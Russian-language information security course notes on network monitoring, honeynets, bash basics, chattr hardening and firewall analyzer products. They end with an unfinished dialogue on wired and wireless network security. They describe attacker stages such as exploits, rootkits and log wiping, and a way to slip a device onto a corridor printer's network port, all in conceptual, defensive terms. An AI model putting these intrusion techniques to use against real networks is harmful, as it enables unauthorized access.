Во многих случаях аномалии, замеченные при мониторинге и контроле, требуют немедленной реакции технических специалистов, соответственно, средство мониторинга сети должно иметь широкие возможности для пересылки оповещений (пересылка сообщений в локальной сети, электронной почтой, Интернет-пейджером). Изменения других контролируемых параметров реакции не требуют, но должны быть учтены для последующего анализа. Зачастую же необходимо и то, и другое – непрерывный сбор статистики плюс немедленная реакции на «выбросы»: например, отмечать и накапливать все случаи загрузки процессора более 80%, а при загрузке более 95% – немедленно информировать специалистов. Полноценный мониторинговый софт должен позволять организовывать все эти (и более сложные) сценарии.

- Проверка физической доступности оборудования: ICMP, UDP, трассировка маршрута (traceroute).
- Проверка работоспособности служб и сервисов, запущенных в сети: все стандартные протоколы (POP/SMTP, DNS, DHCP, HTTP/FTP), подключение к базам данных (Oracle, MySQL, MS SQL Server, или любая БД, доступная через источники данных ODBC). Кроме того, Alchemy Eye предоставляет мощное средство для проверки нестандартных серверов – TCP-скрипт. В этой проверке можно описать достаточно сложную логику подключения к порту сервера, отсылки ему любых строк-команд и тестирования ответов.
- Проверка нагрузки сети и отдельных служб: можно использовать проверку стандартных переменных SNMP MIB (Management Information Base) – программа не только позволяет контролировать их, но и предоставляет дерево-список всех доступных в MIB переменных. Счетчики производительности для Windows-машин доступны «из коробки», а сходная функциональность для nix-серверов – в виде бесплатного плагина на сайте производителя.
- Проверка специфических параметров* для данного окружения: список проверок включает и SQL-запросы с проверкой результата, и анализ лог-файлов (в том числе на удаленных компьютерах), и еще более специфичные проверки (например, анализ значений ключей реестра или журнала событий Windows).
- Проверка состояния уязвимых объектов: сюда можно отнести подключение по TCP/IP к любому порту удаленного компьютера, проверка прав доступа к различным файлам и папкам (права могут быть изменены злоумышленником или некачественным ПО), проверка количества файлов в определенной папке и сравнения файла по содержимому с эталоном.

## Использование технологий Honeynet и Honeypot

https://www.securitylab.ru/analytics/275420.php

Вообще говоря, идея создания специальной среды для изучения действий злоумышленников не нова, ее описание встречается, в частности, в публикации Билла Чесвика (Bill Cheswick) "An evening with Berferd", описывающей действия администратора после обнаружения попытки проникновения. В той ситуации для отслеживания действий злоумышленника была создана замкнутая среда (при помощи широко используемых в UNIX технологий chroot и jail). Такие системы принято называть "honeypot" (от английского honey pot - бочонок с медом). Honeypot представляет собой специальным образом доработанную систему, которая подключается к Интернет в качестве приманки, и которой рано или поздно заинтересуются черные шляпы. В процессе взлома этой системы установленные на ней средства слежения и регистрации должны зафиксировать все подробности этого процесса. Однако, такому подходу присущ целый ряд недостатков:

- После взлома такой системы (а именно для этого ее и выставляют в Интернет) достоверность регистрационных журналов и другой информации из системы слежения становится сомнительной.
- Администратору интересно изучить методику атак на стандартные системы, которые часто встречаются в Интернет; в данную же систему вносятся существенные изменения. Кроме того, это демаскирующий признак - злоумышленник может обнаружить эти изменения и отказаться от своих планов.
- Проводя такие эксперименты, администратор должен осознавать ответственность и за других, т.к. его honeypot может быть использован как промежуточное звено для сканирования или атак на другие системы, например как часть blist (broadcast amplifier network, см. "Мотивы и психология черных шляп"). 

Эти недостатки можно ликвидировать или свести к минимуму, если использовать не отдельно стоящую систему (honeypot), а построить специализированный сетевой комплекс - honeynet, выводящий исследование на качественно новый уровень. Как пишет в своем предисловии к уже упомянутой статье о мотивах черных шляп Брэд Поуэл (Brad Powell, Sun Microsystems, GESS Global Security Team) именно объединение honeypot в сети изменило его отношение к такого рода исследованиям. Кроме обеспечения большей подконтрольности эксперимента (вследствие введения независимых подсистем регистрации), honeynet выгодно отличается от honeypot тем, что в нем используются самые обычные системы, которые можно встретить в реальных сетях. Таким образом, полученная информация об использовании типовых уязвимостей и методах проникновения более адекватно отображает реальную ситуацию. Более того, в honeynet может использоваться несколько различных систем одновременно. Некоторые злоумышленники ищут для атаки цель с какой-то определенной уязвимостью. Установив, например, Linux в качестве сервера DNS, Windows NT в качестве web-сервера и Solaris в качестве сервера FTP, мы сможем наблюдать за разными категориями злоумышленников.

Honeynet должен обеспечивать выполнение двух основных задач: сбора данных и удержания ситуации под контролем. Простая, на первый взгляд, задача регистрации данных в реальных системах оказывается достаточно сложной из-за большого потока информации. На самом деле, система должна безошибочно и в реальном времени различать обычные (правомерные) действия и злоумышленные. В случае с honeynet это затруднение разрешается очень просто: honeynet не является рабочей системой (информационным сервером, файловым архивом и т.п.), она нигде не рекламируется, поэтому любой входящий из Интернет трафик по определению является подозрительной активностью, а попытка установления исходящего соединения указывает на компрометацию системы.

Типовой honeynet условно можно разделить на три части: межсетевой экран (firewall), подсистему регистрации и собственно приманки (honeypots).

Honeynet функционирует параллельно с рабочей сетью и независимо от нее. Эта сеть может быть подключена к Интернет по отдельному каналу, на нее может быть зарегистрирован отдельный диапазон IP-адресов, а может использовать для общения с внешним миром основной маршрутизатор компании - все зависит от конкретной ситуации.

Рассмотрим, каким образом данные функциональные элементы участвуют в выполнении перечисленных задач.

Межсетевой экран позволяет достаточно надежно контролировать ситуацию. Он может изменять логику своего поведения (динамически менять правила фильтрации) в зависимости от внешних событий (например, запретить попытки установления исходящих соединений по сигналу системы обнаружения атак), исключая, таким образом, возможность использования какой-либо из систем, входящих в honeynet, в качестве базы для противоправных или просто злоумышленных действий. Разработчики honeynet предлагают другой, не менее эффективный способ исключить использование систем-приманок для осуществления атак - ограничение числа исходящих соединений 5-10 попытками. В этой ситуации, в отличие от полного запрета исходящих соединений, злоумышленник, с одной стороны, не почувствует подвоха, а с другой стороны - не сможет осуществить сколько-нибудь значительных вредоносных действий. Существует мнение, что можно не выставлять ограничение совсем, а при обнаружении компрометации системы пресекать попытки атак вручную. Однако, далеко не все могут позволить себе осуществлять круглосуточный контроль системы квалифицированным оператором. Более того, Интернет не имеет географических границ, в месте расположения honeynet может быть глухая ночь, а в точке, откуда действует нарушитель - разгар дня. Полагаться на человеческий фактор рискованно еще и потому, что многие действия злоумышленников автоматизированы. Он может запустить заранее заготовленный сценарий (возможно, даже и не им написанный), который выполнит все необходимые действия в течение мгновений. Человек не просто не успеет среагировать на подобное событие, он далеко не сразу сможет осознать, что же именно произошло.

Большинство современных межсетевых экранов имеют также и подсистему регистрации событий. Таким образом, межсетевой экран помогает решать и задачу сбора данных, делая ее многоуровневой.

Основную же часть работы по регистрации и накоплению информации выполняют система обнаружения атак (intrusion detection system, IDS) и сервер регистрации. Сервер регистрации подключается к обычному порту коммутатора и получает от систем-приманок информацию о происходящих на них событиях (в UNIX-подобных системах возможность направления информации на удаленный syslog-сервер является стандартной, для Windows NT существуют решения третьих фирм). Компьютер с установленной на нем IDS подключается к порту коммутатора, находящемуся в режиме "port monitor", что позволяет ему "прослушивать" весь сетевой трафик, включая набираемые злоумышленником команды и направляемый ему вывод программ (см. "Выслеживаем черную шляпу"). Регистрационные журналы IDS и межсетевого экрана целесообразно также направлять на сервер регистрации (оставляя, конечно, и локальную копию), т.к. концентрация информации из разных источников в одном месте дает более полную картину.

Назначение систем-приманок (honeypots) очевидно - это "лабораторные мышки". Эти системы должны быть максимально естественными, в них не вносится никаких серьезных изменений вроде эмуляции уязвимостей или искусственного ослабления защиты. По словам Лэнса Спицнера, самым правильным подходом будет взять обычную систему из рабочей сети и установить ее в honeynet (естественно, удалив с нее конфиденциальную информацию). Единственное изменение, которое можно в нее внести, это установка специализированной подсистемы регистрации. Обычно, сразу после получения контроля над системой (см. "Они получают права root"), злоумышленник изменяет конфигурацию подсистемы регистрации, если она настроена на ведение журналов на удаленном сервере. Таким образом, если установить немного измененное программное обеспечение (для UNIX это syslogd), которое читало бы альтернативный файл конфигурации, можно на некоторое время продлить регистрацию событий. Злоумышленник попытается изменить типовой файл конфигурации, не затронув, тем самым, реальных настроек системы. Правда, следующим шагом с его стороны, как правило, является установка собственной, "троянизированной" версии программного обеспечения регистрации событий и очистка локальных журналов.

Логичным следствием такого подхода является тот факт, что honeynet не станет для злоумышленника более привлекательной, чем обычная рабочая сеть, обе могут быть атакованы с равной вероятностью. Но это не является недостатком, ибо цель создания honeynet состоит не в "оттягивании" атак от рабочей сети (для этого существуют, так называемые, "обманные системы" - deception toolkit), а в создании максимально естественной информационной среды, позволяющей изучить поведение злоумышленника в реальных условиях.

Наконец, стоит сказать несколько слов о маршрутизаторе. Он выполняет очень важную функцию - маскирует межсетевой экран. Взломав одну из систем-приманок и войдя в нее, злоумышленник увидит, что между покоренной им системой и Интернет находится обычный маршрутизатор, а обнаружить "прозрачно" работающий межсетевой экран - задача нетривиальная. Дополнительно, средствами маршрутизатора обеспечивается защита от подмены адресов (IP spoofing protection), что является стандартным подходом во многих сетях.

Итак, система собрана, отлажена и включена в работу. Рано или поздно она выполнит свое предназначение - ее обнаружат и взломают. А исследователь перейдет к следующему, более сложному этапу - анализу полученной информации.
Анализируем собранную информацию.

Восстановить действия злоумышленника, даже имея самые подробные регистрационные записи - задача не из легких. Необходимо сопоставить информацию, полученную из разных источников, избавиться от ее противоречивости (ведь после компрометации изучаемой системы часть регистрационной информации становится недостоверной, часть исчезает), после чего приступать собственно к восстановлению последовательности событий и их осмыслению. Такой анализ требует колоссальных затрат. Злоумышленник мог провести в системе в общей сложности около 30 минут, а для анализа может потребоваться до 30-40 часов.

Как сказано в статье "Проводим следствие", изучение атаки лучше начинать с того же места, с которого ее начал нарушитель. А начинается атака с разведывательной операции вокруг цели. Это может быть как полное сканирование портов, с целью выяснения доступных сервисов, так и поиск конкретной уязвимости (или небольшого набора уязвимостей). Все эти действия обнаруживаются и протоколируются системой регистрации. Они относительно легко формализуемы (т.е. в базе системы обнаружения атак имеются соответствующие сигнатуры), а в случае с honeynet отпадает необходимость выделять их из потока обычных событий. Данный этап может отсутствовать или значительно отстоять по времени от начала реального вторжения. Дело в том, что поиск цели также проводится автоматизировано (см. "Средства и методология Script Kiddie"), т.е. специализированная программа сканирует Интернет случайным образом и записывает информацию о системах, потенциально обладающих искомой уязвимостью. Кроме того, злоумышленники часто обмениваются разведывательной информацией. Например, в поисках системы на базе Linux с уязвимым wu-ftpd, злоумышленник получает информацию и о других сервисах, установленных на просканированных им машинах. В последствии, он может поделиться информацией (нередки случаи покупки таких сведений) с другим злоумышленником, разыскивающим, например, уязвимые сервисы imap.

Получив исходную информацию, необходимую для осуществления атаки, злоумышленник переходит ко второй фазе - проникновению. Для этого он обычно использует, так называемые, эксплоиты (калька с английского "exploit"). Эксплоит представляет собой специализированную программу, которая, используя уязвимость системы, предоставляет злоумышленнику несанкционированный доступ к ней, как правило, с правами администратора. Естественно, действия программы-эксплоита формализованы, и, спустя небольшое время после начала распространения эксплоита соответствующие сигнатуры вносятся в базы данных систем обнаружения атак. Следовательно, и эту фазу мы можем увидеть в записях нашей подсистемы регистрации в виде сообщений от IDS. Также, следы применения эксплоита можно обнаружить и в системных регистрационных журналах. В частности, после атаки на сетевой сервис с переполнением буфера в системном журнале syslog обнаруживаются записи длинных строк с необычными символами.

Получив доступ, злоумышленник должен закрепиться в системе. Для этого он устанавливает черных вход, путем замены некоторых частей системы на свои. Это может быть программа, проверяющая полномочия пользователя при входе в систему (/bin/login), добавление нового пользователя в систему, специализированный демон, ожидающий соединения на нестандартном порту и предоставляющий командную оболочку с правами администратора, а также другие варианты. Практически во всех случаях подменяется и программное обеспечение подсистемы регистрации данной системы (syslogd). Новая версия не будет фиксировать события, связанные с деятельностью злоумышленника. Более того, она подменяет собой установленную нами систему, отправляющую информацию о событиях на удаленный log-сервер. Таким образом, с этого момента мы лишаемся одного из источников информации, и дальнейший контроль можем осуществлять только на базе журналов системы обнаружения атак. Проект honeynet использует систему обнаружения атак snort (www.snort.org), распространяемую с открытыми исходными текстами. Но отсутствие затрат на приобретение - не главное ее преимущество. Snort может также работать в режиме сетевого анализатора (сниффера), фиксируя все проходящие по сетевому кабелю пакеты. При этом его можно настроить таким образом, чтобы он записывал сессии на уровне прикладных протоколов (ftp, telnet и т.п.) в удобочитаемом для человека виде в отдельные файлы. Имея такой источник информации (представьте, что Вы стоите за спиной злоумышленника, видите все набираемые им команды и ответную реакцию программ на них), можно не очень огорчаться потерей информации из локального syslog!

Следующий этап вторжения - заметание следов. Он также в большинстве случаев осуществляется, автоматизировано (например, уничтожение записей о входе пользователя в UNIX-подобную систему осуществляется при помощи программы cloak). Существуют и "комплексные решения", так называемые rootkit. Rootkit представляет собой набор программ и сценариев для управления ими, осуществляющий практически все перечисленные выше действия самостоятельно. После проникновения в систему при помощи эксплоита, злоумышленник загружает из Интернет rootkit, который автоматически подменяет все необходимые программы, устанавливает черный вход и уничтожает следы пребывания злоумышленника в системе.

Чтобы установить, какие именно изменения злоумышленник внес в систему, необходимо заранее позаботиться о фиксации ее начального состояния. Это легко сделать при помощи tripwire. Tripwire создает "слепок" состояния системы путем подсчета криптографических контрольных сумм (хешей) всех важных файлов и подписания этой информации электронной цифровой подписью. Естественно, полученные данные необходимо помещать на отчуждаемый носитель (дискету), равно как и саму утилиту tripwire. Желательно также пользоваться статически слинкованной версией tripwire во избежание ее обмана при помощи закладок в libc. Но надежнее всего для запуска tripwire использовать загрузку операционной системы с доверенного носителя (не забудьте только дождаться, пока злоумышленник выйдет из системы, чтобы он не заподозрил неладное).

Следующий этап атаки - использование скомпрометированной системы. Тут все зависит от целей злоумышленника и его фантазии. Она может быть использована для хранения ворованного программного обеспечения, выполнения трудоемких вычислительных задач (например, подбора криптографических ключей), для сканирования других систем и атак на них, в качестве одного из "зомби" при осуществлении распределенных атак отказа в обслуживании и т.п. Т.к. все эти действия осуществляются удаленно, мы можем их наблюдать и фиксировать при помощи IDS и сниффера. Однако, здесь возможны сложности для исследователя. Если злоумышленник достаточно умен, он может работать со скомпрометированной системой с использованием SSH. В этом случае все передаваемые по сети данные будут зашифрованы и перехваченные сниффером пакеты не дадут нам никакой полезной информации. Данный этап является самым опасным этапом исследования, т.к. нет гарантии, что злоумышленник каким-либо образом не обойдет наши ограничения и не использует скомпрометированную систему для злоумышленных действий против других сетей. Изучив действия злоумышленника, систему отключают от Интернет и восстанавливают ее исходное состояние.
Что нам это дает?

В первую очередь - информацию о противнике. А это не так и мало, ведь кто предупрежден, тот вооружен. Обеспечение безопасности информации традиционно носило оборонительный характер ("они нападают, мы защищаемся"), использование honeynet позволяет перейти от пассивной защиты к активным действиям.

Конечно, сценарий атаки не отличается особой оригинальностью, ведь большинство атакующих - "script kiddie". Этим термином принято обозначать определенную категорию злоумышленников. Эти люди не отыскивают сами уязвимости в операционных системах, не пишут эксплоиты, не осуществляют взломов вручную. Они используют самый легкий путь для достижения своей цели - ищут стандартные уязвимости и используют их про помощи стандартных эксплоитов. В статье "Средства и методология Script Kiddie" Лэнс Спицнер пишет о них: "Они не пытаются получить доступ к какой-то определенной информации или осуществить атаку на конкретную компанию. Их цель состоит в том, чтобы получить права root самым простым из возможных способов".

Изучив противника в honeynet, мы можем не только узнать, как он будет атаковать и что от него ждать после вторжения, но и его мотивы, психологию. Во время одного из исследований с использованием honeynet участникам проекта удалось записать переговоры черных шляп между собой на IRC-канале и даже видеоизображение. Это очень ценная информация, благодаря ей мы узнаем о целях и побудительных мотивах злоумышленников с их собственных слов. Знание тактики противника, дополненное пониманием его психологии и целей, которых он стремится достигнуть, поможет лучше организовать защиту.

В процессе установки, настройки и эксплуатации honeynet приобретается неоценимый опыт по обнаружению атак, реагированию на инциденты с информационной безопасностью и восстановлению систем после компрометации. Огромным плюсом является тот факт, что данный опыт приобретается не на задействованной в реальном бизнесе системе, а как бы на тренажере, избавляя от неизбежных финансовых и моральных потерь в процессе приобретения такого опыта традиционным способом.

Анализ скомпрометированной системы проводится в спокойной обстановке, у исследователя в распоряжении есть все необходимые данные. Полученная в результате такого анализа информация может быть использована, чтобы определить, не скомпрометирована ли аналогичным образом какая-нибудь система в Вашей рабочей сети.

Honeynet можно использовать и в качестве теста на защищенность. Допустим, вы разработали новую систему электронной коммерции. Конечно, при разработке попытались учесть все нюансы, касающиеся обеспечения безопасности информации, возможно, провели практическое исследование при помощи сканера безопасности (RealSecure, Nessus и т.п.). Однако, ей можно устроить суровое стендовое испытание в "боевых" условиях. Для этого достаточно просто поместить такую систему в honeynet (конечно, без реальной коммерческой информации) и посмотреть, не найдут ли "добровольные тестеры" каких-либо изъянов в ее безопасности. Было бы абсурдом утверждать, что система "абсолютно безопасна", на основании того лишь факта, что она простояла в составе honeynet один месяц и не была взломана, но такие "полевые испытания" помогут выявить явные упущения в подсистеме информационной безопасности.
Особенности национальной защиты.

Использование honeynet поднимает целый ряд этических и правовых проблем.

Например, существует мнение, что использование honeynet является своего рода провокацией - выставляя в Интернет слабо защищенную систему, мы провоцируем потенциального злоумышленника на совершение ряда противоправных действий, которые в других условиях он, возможно, и не совершал бы. Контраргументами этому тезису являются, во-первых, тот факт, что в качестве систем-приманок используются самые обычные системы со стандартными настройками, которые можно встретить в Интернет повсюду, во-вторых, honeynet не позицируется как система общего пользования, ее никто не анонсирует, следовательно, индивидуум, совершающий в ее отношении какие-либо манипуляции, действует осознанно и целенаправленно.

Другим спорным моментом, связанным с использованием honeynet, является вопрос о нарушении права на неприкосновенность частной жизни. Министерство юстиции США выпустило документ "Searching and Seizing Computers and Obtaining Electronic Evidence in Criminal Investigation" (доступен по адресу http://www.cybercrime.gov/searchmanual.htm), в котором приводится информация о прецедентах, когда апелляционные суды отклоняли доводы защиты о нарушении прав обвиняемых на неприкосновенность частной жизни при расследовании компьютерных преступлений и мошенничеств. Большинство аргументов основывается на том, что злоумышленник не имел законных прав на использование ресурсов системы и ее владелец не брал на себя обязательств по обеспечению приватности. Помещая информацию в указанную систему, злоумышленник сам добровольно предоставляет к ней доступ владельцам системы, теряя, таким образом, право на ее приватность. 

## Дополения

### Основы unix-shell

1. Командная оболочка
2. Язык программирования + прародитель
   - Power Shell
   - PhP
   - zsh csh...
   - bash
   - Python - c оговорками

Принципы:

1. Любая команда - "оператор"
2. "Архаичный синтаксис"
 - каждая новая команда - с новой строки или с ;
 - команды можно объединять в группы 
   а) if
   b) for
   c) case
   d) while
   e) скобки
3. Переменные - текстовые, подставляются после $
4. Cимволы * и ? - маски.
5. Кавычки имеют значение!
6. Присвоение переменной - без пробела
   Вообще пробелы имеют значение.
7. Cимволы < > << >> и |
    <  - взять из файла
    >  - положить в файл (перезаписывается)
    << - взять из стдин до указанной строки
    >> - дописать в файл
    |  - передать по конвейеру
        cоздает параллельные процессы
        с изолированной памятью
8. Можно считать с помощью подстановок

*Код программы, иллюстрирующей параллелизм*

    max=0
    cat data |  while read x
    do
        if [[ $x > $max ]] 
        then
            max=$x
            echo $max
        fi
    done
    echo $max

1-й процесс (max=0, echo $max)

2-й процесс (cat data)

3-й процесс (while ... done)

В результате max не попадает из (3) в (1).

### Некоторые примеры

       vvvvvvvvvvvvvv
    if test "x" == "x" ----------- [ "x" == "x" ]
    then - не выполняется вообще
      echo "yes" выполняется, если условие вернуло 0
    else
      echo "no" выполняется, если условие вернуло 1++
    fi
    
    [ "x" == "x" ] && {
        echo "yes"
    } || {
        echo "no"
    }
        имя фла             имя переменной
    cat a_file | while read x
    do
        echo $x использование переменной
    done
    
    a only > "a" "only"
    "a only" > "a only"
    'a only' > "a only" 
    a=value
    '$a only' > "value only"     
    
    a=value << только так!
    read a
    for a
    
    [ $x == 0 ] --- [  == 0 ] --- неправильно!
    [ 0$x == 0 ]    - прав-   [ 0 == 0 ]
    [ "$x" == 0 ]   - ильно   [ "0" == 0 ] 
    
    n=0
    for x in dir/*
    do 
      cp "$x" "$n"
      n=$((n+1))
    done
    
### Утилиты lsattr, chattr
    
1) Позволяют установить дополнительные аттрибуты к файлам на fs ext++
2) +i, +a - самые "популярные"

*+i* - запрещает любые действия над файлом даже rootу

*+а* - запрещает укорачивание файла
   
3) Частая рекомендация

    sudo chattr -R +i /etc/

не имеет большого смысла, т.к. при необходимости реконфигурировать 
систему будет мешать, а злоумышленник, получивший рута смодет ее 
отменить. Без рута в /etc все-равно ничего не поправить.
   
4) Рекомендация 

    sudo chattr +a /var/log/syslog

должна сопровождаться редактированием 
скрипта ротирования логов, т.к. он не сможет работать.

# Модуль 5 Защита сети предприятия

## Обзор решений пассивной и активной защиты периметра сети предприятия

[Сравнительный анализ решений для защиты корпоративных сетей](https://clck.ru/RQEv4)

Администрировать сетевую инфраструктуру, включая средства защиты, является не самой простой задачей, особенно когда речь идет о крупных распределенных сетях, содержащих в себе устройства разных производителей.
Администраторам необходимо постоянно контролировать настройки на всех маршрутизаторах и коммутаторах, что сильно отнимает много времени. Аудит таких систем специалистам по информационной безопасности потребует глубоких знаний по администрированию сетевых устройств разных производителей. Для решения данных проблем существуют специальные инструменты серии Firewall Analyzer, которые предназначены для объединения мониторинга и аудита различного сетевого оборудования от различных производителей в едином интерфейсе с собственной системой разграничения доступа.

На данный момент появилось достаточно много вендоров, у которых имеются продукты этого направления. В основной функционал таких продуктов входят возможность автоматизировать процесс изменения правил и политик безопасности, проводить анализ рисков, записывать жизненный цикл изменений, проводить аудит настроек сетевого оборудования на соответствие политикам безопасности и требованиям отраслевых стандартов. В данной статье речь пойдет о таких продуктах, как AlgoSec Firewall Analyzer, RedSeal, SkyBox, FireMon Security Manager, ManageEngine Firewall Analyzer, CenturyLink Managed Firewall Service, SolarWinds Network Firewall Security Management Software. Основными отличиями данных решений являются перечень поддерживаемых устройств, а также стандарты, по которым может происходить аудит на соответствие.

В данной статье мы детально рассмотрим каждое из перечисленных решений и сравним между собой. В качестве основных требований к системе возьмем наиболее запрашиваемые рынком требования – анализ и удобство, профилактика угроз, возможность расследования инцидентов и поддерживаемые устройства. Выделим следующие параметры, согласно нашим требованиям:

1. Перечень поддерживаемых устройств – список устройств, с которыми система может работать;

2. аудит на соответствие стандартам – перечень стандартов, по которым система может производить аудит на соответствие;

3. Возможность построение векторов атак на основе конфигураций и данных со сканера уязвимостей;

4. Просмотр истории изменения конфигов – возможность создавать отчеты для просмотра истории изменений конфигураций устройств;

5. Контроль применения правил – возможность выявления ошибок в правилах, а также высчитывать степень риска для безопасности инфраструктуры при применении тех или иных настроек. Это возможность позволяет не допустить человеческий фактор, а также уменьшить последствия при применении ошибочных правил. Наличие такой возможности у решения будет, как мы считаем, большим плюсом

6. Возможность управления сетевой инфраструктурой – возможность автоматизировано с единой консоли применять правила для разных устройств. Эта возможность значительно упрощает процесс работы администраторам и техническому персоналу, особенно когда речь идет о больших инфраструктурах, когда топология сети может включать в себя множество сетевых устройств, так еще и от разных производителей.

### Коротко о производителях

AlgoSec Firewall Analyzer создан компанией AlgoSec. Данный продукт может объединить мониторинг и аудит различного сетевого оборудования в своем едином интерфейсе. AlgoSec Firewall Analyzer поддерживает мониторинг и анализ настроек большого перечня устройств. Список поддерживаемых устройств достаточен для покрытия большинства инфраструктурных решений в организациях. Кроме того, имеется возможность оценки рисков – система позволяет быстро обнаружить неправильные или сомнительные настройки, оценить степень их риска для безопасности инфраструктуры, с помощью встроенных механизмов оценки. В данной системе отсутствует возможность построения векторов атак, что является единственным недостатком данного решения.

Компания RedSeal Networks основное направление которой – визуализация и анализа рисков сетевой безопасности. RedSeal позволяет провести комплексный анализ сети (включая облака и виртуальные сети на основе Amazon Web Services и VMware Vshield), а также физической и беспроводной инфраструктуры. RedSeal создает точную модель сети, определяет зоны, вычисляет маршруты атаки в масштабах сети, выявляет проблемы доступа. Основные сферы контроля: сегментация сети, сканирование уязвимостей, тесты на проникновение, оптимизация настроек. Также особенностью данного продукта является поддержка большого количества устройств. Недостатком данного решения будет отсутствие возможности администрировать устройства из единой консоли.

Skybox основана в 2002 году, компания разрабатывает средства анализа рисков в сфере кибербезопасности, а также средства для управления безопасностью. Skybox Security – это набор инструментов, которые направлены на обеспечение безопасности сети, аналитики и отчетности. Эта система позволяет оптимизировать процессы управления безопасностью и повысить их эффективность, провести детальный анализ сети, смоделировать и визуализировать возможные вектора атак без влияния на работоспособность сети, автоматизировать сложные процессы управления уязвимостями и политиками сетевой безопасности. Skybox состоит из следующих модулей:

- Skybox Horizon – модуль визуализации индикаторов угроз.

- Skybox Vulnerability Control – модуль.

- Vulnerability Control - объединяет данные со всех сканеров, систем патч-менеджемента и систем инвентаризации, позволяет визуализировать вектора возможных атак.

- Skybox Firewall Assurance – модуль анализа, оптимизации и контроля всех межсетевых экранов в одной консоли.

- Change Manager – модуль автоматизации изменений настроек межсетевых экранов, оценки их влияния на безопасность сети и соответствия политикам.

- Skybox Network Assurance – модуль визуализации сети, вычисления и визуализации маршрута прохождения трафика.

Данное решение поддерживает 120+ решений ИТ и ИБ. Skybox Security, как и AlgoSec Firewall Analyzer, является одним из лидеров в данном сравнении и соответствует всем параметрам, рассматриваемых в данной статье.

FireMon – американская компания, основанная в 2014 году, поставляет решения по управлению безопасностью сети. Основным продуктом данного вендора является Security Manager. Это решение по управлению политиками безопасности и управлению рисками, которое улучшает уровень безопасности путем повышения эффективности повседневной деятельности, обеспечивая мощный анализ существующей конфигурации и проактивное снижение рисков. Благодаря комплексному анализу правил и автоматизированным рабочим процессам для просмотра правил при помощи данной системы можно устранить технические ошибки и неправильные конфигурации, удалить неиспользуемый доступ, а также просмотреть и уточнить доступ, чтобы оптимизировать производительность устройств, снизить сложность политик и улучшить профиль безопасности. Недостатком FireMon является отсутствие возможности централизованного управления устройствами из единой консоли.

ManageEngine Firewall Analyzer является подразделением корпорации Zoho, штаб-квартира которой находится в США. Решение предназначено для анализа журналов и управления конфигурацией устройств сетевой безопасности. Система позволяет получать уведомления о внесенных изменениях, о возможных сетевых атаках и нарушениях безопасности сети, а также проводить аудит на соответствия. Это решение отлично подойдет для аудита и мониторинга. Но основным недостатком ManageEngine является отсутствие какой-либо возможности взаимодействовать непосредственно с устройствами.

CenturyLink ­–  телекоммуникационная компания, которая предоставляет широкий спектр услуг связи. Одним из продуктов этого вендора является Managed Firewall Service, который обеспечивает круглосуточное управление и мониторинг брандмауэра для расширенных функций контекста и контента UTM NextGen, а также отслеживает угрозы. Данное решение имеет поддержку только четырех производителей межсетевых экранов: Palo Alto Networks, Cisco, Fortinet, Imperva. Система позволяет осуществлять постоянное управление устройствами, реализовывать проактивные обновления устройств. В системе отсутствует возможность контроля применения правил, а также возможность построения вектора атак, что является недостатком.

SolarWinds – компания, которая разрабатывает решения для управления сетями, системами и инфраструктурой предприятия. Network Firewall Security Management Software – одно из решений этого вендора, которое предназначено для управления безопасностью сетевого брандмауэра. В основной функционал этого решения входят непрерывный мониторинг и корреляция событий брандмауэра в реальном времени, мониторинг изменений конфигурации брандмауэра и нарушений политики. Кроме того, имеется возможность автоматизированного управления изменениями конфигурации на разных устройствах без необходимости сложных сценариев и команд консоли.

Подводя итоги, можно сказать, что среди представленных решений есть как те, что соответствуют всем требуемым параметрам, так и те, что отлично подойдут в качестве дополнительного инструмента для мониторинга состояний сетевых устройств, а также для аудита на соответствие вашим политикам или лучшим мировым практикам. Также, не редко происходит апгрейд или полная смена систем с ростом сетевой инфраструктуры.

Хочется отметить и тот факт, что продуктов и решений в этом направлении, а также их характеристик и параметров, намного больше, чем те, что были рассмотрены в рамках сравнительного обзора. Без сомнений решение задач по администрированию сетевой инфраструктуры требуют детального изучения рынка и индивидуальной настройки инструментов, где данный обзор может быть полезным при выборе того или иного решения.

## Вопросы защиты сети

[Особенности защиты беспроводных и проводных сетей](https://clck.ru/RQFRx)

Пусть нас есть два персонажа: консервативно настроенный сетевой администратор, назовем его условно «Сисадмин», привыкший к проводной сети, и новатор, пробующий всё новое и современное, назовем его условно «Гик», который ратует за повсеместное внедрение беспроводных технологий.

*Сисадмин:*

Проводные сети безопаснее беспроводных. Хотя бы потому, что в них гораздо труднее вклиниться, чтобы прочитать трафик.

В любом случае атака на проводную сеть связана с физическим проникновением или нахождением на достаточно близком расстоянии (например, если получить доступ к коммутационном шкафу бизнес-центра). Как вариант, можно использовать инсайдера, чтобы подключить к сети портативное устройство с целью перехвата пакетов или создания шквала ARP запросов для атаки на коммутатор. Но приблизиться или даже проникнуть за периметр в любом случае необходимо.

Если проводная сеть спроектировано грамотно и без сомнительной «экономии», то она очень и очень надежна в отличие от беспроводных сетей.

`Гик:`

Это так, если забыть про человеческий фактор.

Мне не раз приходилось встречать сетевые розетки с активным линком в коридорах офисов. Мало того, такие розетки можно встретить во всевозможных закутках, подсобках и других местах, недоступных для видеонаблюдения. А это серьезная проблема. В такую розетку можно подключить портативное устройство, при помощи которого можно провести те или иные несанкционированные действия с отсылкой результатов, например, по WiFi.

Разумеется, можно и нужно использовать дополнительные меры защиты, такие как port security с фильтрацией по MAC. Но, во-первых, MAC можно подделать, во-вторых, это уже вторая линия обороны. И даже эту линию обороны многие сетевые администраторы предпочитают не использовать. Потому что хлопотно — нужно поддерживать систему защиты в актуальном состоянии, на это нужно время, которого может просто не быть. Эта проблема часто встречается, когда единственный системный администратора занимается всем подряд: от поддержки бухгалтерии до сетевой безопасности.

Но даже если все закрыто и безопасно, остается такая замечательная вещь, как коридорные МФУ. Тут вам, пожалуйста, и свободный порт, и MAC на шильдике написан, и даже патчкорд есть готовый. Вполне можно вечером, когда никто не печатает, вставить этот самый патчкорд в своё портативное устройство, рано утром выключить. При этом камеры видеонаблюдения покажут, что человек подходил к МФУ, а для чего подходил и что он там делал — далеко не всегда удается разобрать. Если при этом на камерах видно, что он держал в руках стопку бумаг, то обычно данный факт не вызывает особых подозрений.

Говорить о проводных сетях, что вот их-то точно никто и никогда не взломает — это неправильно. Другое дело, что для эффективного вмешательства в работу проводных сетей требуется тесный контакт. Проще говоря, кто-то должен подойти и что-то подключить к сети.

*Сисадмин:*

Ну так это перекрывает всё. В случае с беспроводной сетью злоумышленник может действовать на расстоянии. И это является чуть ли не решающим фактором!

`Гик:`

